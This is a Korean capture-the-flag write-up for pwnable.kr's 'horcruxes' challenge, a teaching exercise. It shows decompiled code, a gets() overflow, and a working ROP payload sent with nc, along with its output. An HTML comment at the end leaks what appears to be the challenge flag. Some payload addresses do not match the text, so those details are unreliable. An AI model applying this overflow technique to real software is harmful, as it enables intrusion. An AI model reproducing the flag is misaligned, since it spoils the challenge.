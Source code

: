 ```yaml
---
title: "pwnable.kr - Toddler's bottle #19 horcruxes"
date: 2020-03-10
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #19 horcruxes 문제 풀이

일단 main을 disas해보면 unlink에서 봤던 것과 유사한 부분이 나온다. 뭐 결론적으로는 별 의미 없었지만...  

~~~
   0x080a0001 <+221>:   mov    -0x4(%ebp),%ecx
   0x080a0004 <+224>:   leave
   0x080a0005 <+225>:   lea    -0x4(%ecx),%esp
   0x080a0008 <+228>:   ret
~~~

이번 문제는 소스코드가 주어지지 않았다.  
그래서 Ghidra를 이용해 decompile 해보았다. 대략 중요한 부분들은 다음과 같다

```c
void main(void)

{
  undefined4 uVar1;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  alarm(0x3c);
  hint();
  init_ABCDEFG();
  uVar1 = seccomp_init(0);
  seccomp_rule_add(uVar1,0x7fff0000,0xad,0);
  seccomp_rule_add(uVar1,0x7fff0000,5,0);
  seccomp_rule_add(uVar1,0x7fff0000,3,0);
  seccomp_rule_add(uVar1,0x7fff0000,4,0);
  seccomp_rule_add(uVar1,0x7fff0000,0xfc,0);
  seccomp_load(uVar1);
  ropme();
  return;
}

void init_ABCDEFG(void)

{
  ssize_t sVar1;
  int iVar2;
  uint local_14;
  int local_10;
  
  local_10 = open("/dev/urandom",0);
  sVar1 = read(local_10,&local_14,4);
  if (sVar1 != 4) {
    puts("/dev/urandom error");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  close(local_10);
  srand(local_14);
  iVar2 = rand();
  a = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  b = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  c = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  d = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  e = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  f = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  g = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  sum = g + a + b + c + d + e + f;
  return;
}


void A(void)

{
  printf("You found \"Tom Riddle\'s Diary\" (EXP +%d)\n",a);
  return;
}


void B(void)

{
  printf("You found \"Marvolo Gaunt\'s Ring\" (EXP +%d)\n",b);
  return;
}



undefined4 ropme(void)
{
  int iVar1;
  ssize_t sVar2;
  char local_78 [100];
  int local_14;
  int local_10;
  
  printf("Select Menu:");
  __isoc99_scanf(&DAT_080a0519,&local_14);
  getchar();
  if (local_14 == a) {
    A();
  }
  else {
    if (local_14 == b) {
      B();
    }
    else {
      if (local_14 == c) {
        C();
      }
      else {
        if (local_14 == d) {
          D();
        }
        else {
          if (local_14 == e) {
            E();
          }
          else {
            if (local_14 == f) {
              F();
            }
            else {
              if (local_14 == g) {
                G();
              }
              else {
                printf("How many EXP did you earned? : ");
                gets(local_78);
                iVar1 = atoi(local_78);
                if (iVar1 == sum) {
                  local_10 = open("flag",0);
                  sVar2 = read(local_10,local_78,100);
                  local_78[sVar2] = '\0';
                  puts(local_78);
                  close(local_10);
                    /* WARNING: Subroutine does not return */
                  exit(0);
                }
                puts("You\'d better get more experience to kill Voldemort");
              }
            }
          }
        }
      }
    }
  }
  return 0;
}
```

보면 asm에서 봤던 seccomp_rule_add 하는 부분이 여기에도 있는데 open, read, write, exit, exit_group외의 시스템 콜을 막는것 같다. 아마 쉘코드를 올려서 쉘을 따는 방법을 막으려고 이렇게 한 것 같다.  

ropme 를 보면 gets하는 부분이 있다. 다시 말해 buffer overflow를 할 수 있는 것이다  

함수 이름이 ropme인데 Return Oriented Programming을 사용하라는 뜻인것 같다.

Return oriented programming이란 스택에 대한 제어권을 가졌을때 리턴할 주소를 연속적으로 배치해서 특정 주소 리턴 -> 코드 실행 -> ret -> 특정 주소 리턴 -> 코드 실행을 반복하여 원하는 행동을 하는 테크닉이다.  

이 문제에서 해야 할 일은 A,B,C,D,E,F,G를 모두 호출해 랜덤하게 정해지는 EXP 값을 얻은 후 그것의 합을 알아내서 입력하는 것이다.  

A,B,C,D,E,F,G는 전부 인자도 안받고 그냥 출력한번 하고 끝이기 때문에 A,B,C,D,E,F,G의 주소를 연속으로 적어놓으면 리턴을 반복하면서 이들을 실행 시킬 수 있다.  

gdb에서 찍어본 이들의 주소는 이렇다  

~~~
(gdb) print A
$1 = {<text variable, no debug info>} 0x809fe4b <A>
(gdb) print B
$2 = {<text variable, no debug info>} 0x809fe6a <B>
(gdb) print C
$3 = {<text variable, no debug info>} 0x809fe89 <C>
(gdb) print D
$4 = {<text variable, no debug info>} 0x809fea8 <D>
(gdb) print E
$5 = {<text variable, no debug info>} 0x809fec7 <E>
(gdb) print F
$6 = {<text variable, no debug info>} 0x809fee6 <F>
(gdb) print G
$9 = {<text variable, no debug info>} 0x809ff05 <G>
(gdb) print ropme
$7 = {<text variable, no debug info>} 0x80a0009 <ropme>
~~~

마지막에 sum을 입력하려면 ropme를 다시한번 호출해야 하는데 주소가 0x80a0009라 중간에 NULL byte가 들어간다  
gets로 BOF를 하는 이상 NULL byte가 들어가선 안되므로 ropme를 직접 호출 하는 대신 다른 방법을 강구해야 한다.
그래서 main을 보니 call ropme 하는 부분의 주소가 0x809fffc이다.  
여기에는 NULL byte가 안들어가므로 이곳으로 jmp하면 문제를 해결할 수 있다  

여기까지 알아낸 것을 답으로 엮으면 다음과 같다  

~~~
horcruxes@pwnable:~$ (python -c "print '1\n'+'aaaa'*30+'\x4b\xfe\x09\x08'+'\x6a\xfe\x09\x08'+'\x89\xfe\x09\x08'+'\xa9\xfe\x09\x08'+'\xa8\xfe\x09\x08'+'\xc7\xfe\x09\x08'+'\xe6\xfe\x09\x08'+'\x05\xff\x09\x08'+'\xf9\xff\x09\x08'";cat) | nc 0 9032
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:How many EXP did you earned? : You'd better get more experience to kill Voldemort
You found "Tom Riddle's Diary" (EXP +357247400)
You found "Marvolo Gaunt's Ring" (EXP +90367344)
You found "Helga Hufflepuff's Cup" (EXP +72064967)
You found "Salazar Slytherin's Locket" (EXP +1589617855)
You found "Rowena Ravenclaw's Diadem" (EXP +1345747963)
You found "Nagini the Snake" (EXP +771734896)
You found "Harry Potter" (EXP +2121332346)
Select Menu:1
How many EXP did you earned? : 2053145475
<tag output>
~~~

[pwnable.kr]: https://pwnable.kr

<!-- Magic_spell_1s_4vad4_K3daVr4! -->